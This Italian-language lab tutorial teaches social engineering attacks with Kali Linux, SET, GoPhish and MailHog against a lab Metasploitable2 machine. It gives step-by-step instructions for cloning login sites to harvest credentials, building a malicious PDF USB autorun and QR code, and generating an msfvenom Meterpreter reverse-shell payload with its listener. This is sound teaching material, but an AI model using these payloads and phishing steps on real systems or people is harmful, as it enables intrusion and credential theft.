










# Attacchi di Ingegneria Sociale

L'ingegneria sociale è una tecnica di manipolazione psicologica utilizzata per indurre le persone a divulgare informazioni confidenziali, eseguire azioni che compromettano la sicurezza o rivelare dati sensibili. Questa tecnica si basa sull'interazione umana e sfrutta la fiducia, la curiosità, la paura o l'ignoranza delle vittime per ottenere accesso a informazioni o sistemi protetti.

Per questa attivita' utilizzeremo la macchina **Kali Linux** e il **Social Engineering Tookit (SET)** installato sulla macchina Kali Linux. 
SET  offre una vasta gamma di funzionalità per simulare attacchi di ingegneria sociale e valutare la resilienza di individui e organizzazioni contro tali attacchi. 

Prima di condurre gli attacchi di ingegneria sociale utilizzando SET dobbiamo installare sulla macchina Kali Linux, due software **Mailhog** e **GoPhish**.

**Mailhog** è uno strumento di testing e sviluppo per le email. È un server SMTP simulato che cattura le email inviate dalle applicazioni in fase di sviluppo, consentendo agli sviluppatori di testare l'invio di email senza il rischio di inviare email reali a destinatari reali. MailHog fornisce un'interfaccia web semplice per visualizzare, cercare e gestire le email catturate.

**GoPhish** è uno strumento open source per la gestione e l'esecuzione di campagne di phishing simulato. È progettato per aiutare le organizzazioni a testare e migliorare la consapevolezza sulla sicurezza dei propri dipendenti. Con GoPhish, le organizzazioni possono creare e gestire campagne di phishing realistiche, monitorare le risposte dei destinatari e analizzare i risultati per identificare le aree in cui è necessario migliorare la formazione sulla sicurezza.

## Installazione Mailhog

Scaricate sulla macchina Kali Linux il file MailHog_linux_amd64 dal seguente url https://github.com/mailhog/MailHog/releases/v1.0.0.

Salvate il file MailHog_linux_amd64 sotto la cartella Desktop.

Aprite un terminale e digitate i seguenti comandi per dare permessi di esecuzione al file:

```
# chmod +x MailHog_linux_amd64
```
## Installazione GoPhish

Scaricate sulla macchina Kali Linux il file gophish-v0.12.1-linux-64bit.zip dal seguente url https://github.com/gophish/gophish/releases.

Estraete il file zip in una cartella sotto la cartella Desktop.
```
# chmod +x gophish
```
## Creare un sito di phishing per rubare credenziali


Eseguite il Social Engineering Toolkit dal menu principale della macchina Kali come illustrato nella figura qui sotto.


Selezionate l’opzione 1) Social Engineering Attacks


Selezionate l' opzione 2) Website Attack Vector


Selezionate l’opzione 3) Credential Harvester Attack Method


Selezionare l’opzione 2 Site Cloner 

Specificare come indirizzo IP quello della macchina Kali Linux

Specificare URL del sito da clonare. Il sito deve avere una form di login


Aprite Firefox e visitate il sito web digitando localhost nella barra degli indirizzi del browser e inserite un’ indirizzo email e una password fasulli


## Creare Chiavetta USB infetta 

Dal menu' principale di SET selezionare l'opzione 3) Infectious Media Generator.

Poi Selezionare Opzione 1 – File Format Exploits

Specificare indirizzo IP della macchina Kali Linux 

Selezionare Opzione 13 – Adobe PDF Embedded Social Engineering


Selezionare Opzione 2 – Use built-in BLANK PDF for attack

Selezionare opzione 5 – Windows Meterpreter Reverse_TCP (x64)

Lasciare come indirizzo IP e porta di default

Copiare la cartella /root/.set/autorun su una chiavetta USB


## Creare un QRCode Malevolo 

Selezionare Opzione 8) QRCode Generator Attack Vector 


Specificare l'url del sito web di phishing a cui redirigere le potenziali vittime 


Aprite qrcode_attack.png con un QRCode scanner online e.g Web QR per vedere che il QRCode punta al sito malevolo

## Creare un payload malevolo con msfvenom 

**msfvenom** è uno strumento del framework Metasploit utilizzato per generare payload malevoli. Per creare un payload malevolo per Linux, seguiamo i seguenti passaggi.

Apri un terminale e digita il seguente comando:

```
# msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<IP KALI VM> LPORT=<Porta> -f elf -o payload.elf
```
Spiegazione dei Parametri:

* -p linux/x86/meterpreter/reverse_tcp: Specifica il tipo di payload. In questo caso, stiamo utilizzando una reverse shell Meterpreter per Linux.
* LHOST=<IP KALI VM >: L'indirizzo IP della macchina che riceverà la connessione reverse shell. Nel nostro caso la macchina Kali Linux.
* LPORT=<Porta>: La porta sulla quale la tua macchina ascolterà la connessione reverse shell
* -f elf: Specifica il formato del payload. Per Linux, il formato ELF è comunemente usato.
* -o payload.elf: Specifica il nome del file di output che conterrà il payload.

Una volta generato il payload, è necessario configurare un listener sulla  macchina  Kali Linux per ricevere la connessione reverse shell. Questo può essere fatto utilizzando Metasploit:

```
# msfconsole
# use exploit/multi/handler
# set payload linux/x86/meterpreter/reverse_tcp
# set LHOST <IP>
# set LPORT <Porta>
# exploit
```
* use exploit/multi/handler: Seleziona il modulo handler per gestire la connessione incoming.
* set payload linux/x86/meterpreter/reverse_tcp: Specifica il tipo di payload che il listener si aspetta di ricevere.
* set LHOST <IP>: Configura l'indirizzo IP della macchina Kali.
* set LPORT <Porta>: Configura la porta sulla quale la tua macchina ascolterà.
* exploit: Avvia il listener.

Trasferisci il file payload.elf sulla macchina Metasploitable2  e rendilo eseguibile con il comando:

```
# chmod +x payload.elf
```
Esegui il payload sulla macchina target:

```
# ./payload.elf
```
Una volta eseguito il payload, dovrebbe stabilire una connessione con il listener configurato sulla macchina Kali Linux, permettendoti di ottenere una sessione Meterpreter sulla macchina Metasploitable2.

## Simulare una campagna di phishing con GoPhish

Aprite un terminale e digitate il comando ./gophish per far partire GoPhish

Aprite un secondo terminale e digitate il comando ./MailHog_linux_amd64
 
Aprite Firefoz e digitate https://127.0.0.1:3333


Fate il login con  utente: admin  e password: quella che e' stata generata.




## Creare un Sending Profile



Specificate un nome per il Sending Profile

Specificate un indirizzo fasullo del mittente

Specificate come host l'SMTP server di MailHog indicato nella figura

Lasciate username e password in bianco

Cliccate su Save Profile

### Creazione Landing Page



Creiamo una Landing Page ovvero il sito di phishing

Specificare URL alla pagina di login del sito da clonare e cliccate Import

Flaggate  l’opzione Capture Submitted Data

Nel campo Redirect To specificate l’indirizzo del sito legittimo che e' stato clonato

Cliccate su Save Page



### Creare template email di phishing 



Cliccate su Email Templates per creare il template dell’email di phishing

Date un Nome al Template

Cliccate su Import Email e Copiate il sorgente dell’email di phishing che volete utilizzare un'email esistente

Cliccate su Import una volta terminato di copiare il codice sorgente dell’email
 
Cliccate su Save Template

### Creare la lista delle potenziali vittime



Cliccate su Users and Groups per definire la lista delle vittime a cui mandare l’email di phishing. Le singole vittime possono essere specificate singolarmente e aggiunte mediante il bottone Add oppure è possibile importare un file .cvs con la lista delle vittime

Cliccate su Save Changes

### Creare una nuova campagna di phishing 

Create una nuova campagna di phishing cliccando su Campaigns e specificate sotto Email Template, Landing Page, Sending Profile e Groups il nome di quelli che abbiamo creato nei passaggi precedenti.



Dopo di che cliccate su Launch Campaign.



L’email di spearphishing è stata inviata come si può vedere dalla Dashboard di GoPhish
 
Potete visualizzare l’email inviata dall’interfaccia grafica di MailHog sulla macchina Kali Linux all'indirizzo http://0.0.0.0:8025


 
Cliccate su Change Password nell’email e inserite le credenziali

Aprite la dashboard di GoPhish e visualizzate i dati sottomessi dalla vittima


